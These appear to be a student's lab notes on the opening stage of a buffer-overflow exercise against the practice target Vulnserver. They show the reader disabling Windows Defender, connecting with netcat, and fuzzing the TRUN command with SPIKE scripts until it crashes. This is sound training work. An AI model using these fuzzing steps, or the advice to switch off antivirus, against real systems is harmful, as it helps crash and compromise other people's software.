

Disable Windows Real Time protection if that's enabled Cuz if we don't do it than it will block the Vulnserver will actually be blocked by windows defender.
Imunity-Debuger
Files -> Attach -> Vulnserver

It's Paused (i.e. bottom right side) and will hit start
Kali Linux :
Will connect to Vulnserver and by default Vulnserver run on Port 9999 and the IP address of Windows machine on which it is running.
──(root㉿kali)-[/home/kali]
└─# nc -nv 192.168.205.135 9999
(UNKNOWN) [192.168.205.135] 9999 (?) open
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
Vulnserver takes these commands (i.e. mentioned above as input) and the primary command that will focus on is Trun command.So will do something called as Spiking to find the Trun command
Tool that we will use to spike is Generic Send TCP
┌──(root㉿kali)-[/home/kali]
└─# generic_send_tcp
argc=1
Usage: ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
./generic_send_tcp 192.168.1.100 701 something.spk 0 0
┌──(root㉿kali)-[/home/kali]
└─# cat stats.spk
s_readline(); will read the line
s_string("STATS"); and will take a string and the string is STATS and will send variables at it
s_string_variable("0"); When will spike it will send the variables in all forms of iterations so might send thousand at a time and than 20 K and so on
In the real test will let it run all the way through but the mentor told it's not vulnerable so will press ctrl + c to stop it
Will run the trun.spk now
┌──(root㉿kali)-[/home/kali]
└─# cat trun.spk
s_readline();
s_string("TRUN ");
s_string_variable("0");
┌──(root㉿kali)-[/home/kali]
└─# generic_send_tcp 192.168.205.135 9999 trun.spk 0 0

As we can see there is something vulnerable here but will see if we are able to control the EIP register or not